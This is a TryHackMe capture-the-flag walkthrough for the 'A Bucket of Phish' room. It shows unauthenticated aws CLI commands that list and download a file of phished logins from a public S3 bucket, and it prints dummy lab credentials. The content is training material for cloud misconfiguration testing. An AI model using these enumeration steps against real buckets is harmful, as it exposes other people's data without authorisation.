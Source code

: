 ```yaml
---
title: A Bucket of Phish
categories: [TryHackMe]
tags: [aws]
media_subpath: /images/tryhackme_abucketofphish/
image:
  path: 'https://tryhackme-images.s3.amazonaws.com/room-icons/edb8226745b7607d851bd0258f31227c1cbdad254e1a2d574d97837321fa8e32.618b3fa52f0acc0061fb0172-1747849942798'
---
```


# Summary
[A bucket of phish](https://tryhackme.com/room/hfb1abucketofphish) is a easy room on TryHackMe, where the goal is to find a flag hidden in a public S3 bucket.

# Theory Used
[**AWS S3**](/theory/misc/aws#s3-buckets-pentesting)

# Walkthrough

![NON](file-20250528234045382.png)

Looking at the website, we can sett that it is running using the `aws` service, so we can try to list some public informations on the website, like public buckets

```bash
aws s3 ls s3://darkinjector-phish --no-sign-request

2025-03-17 06:46:17        132 captured-logins-093582390
2025-03-17 06:25:33       2300 index.html
```

We can see two files, the `index` page of the website and a `captured-logins` file, where is possible to find the credentials captured along with the flag for this challenge

```bash
aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
download: s3://darkinjector-phish/captured-logins-093582390 to ./captured-logins-093582390

cat captured-logins-093582390
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,<REDACTED>
```
